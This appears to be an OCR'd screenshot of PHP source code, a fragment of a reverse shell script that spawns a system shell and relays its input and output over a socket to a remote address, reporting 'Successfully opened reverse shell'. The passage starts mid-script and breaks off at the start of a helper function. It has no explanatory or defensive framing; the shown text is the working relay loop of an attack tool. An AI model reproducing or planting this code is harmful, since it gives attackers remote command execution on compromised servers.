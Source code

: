```
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
```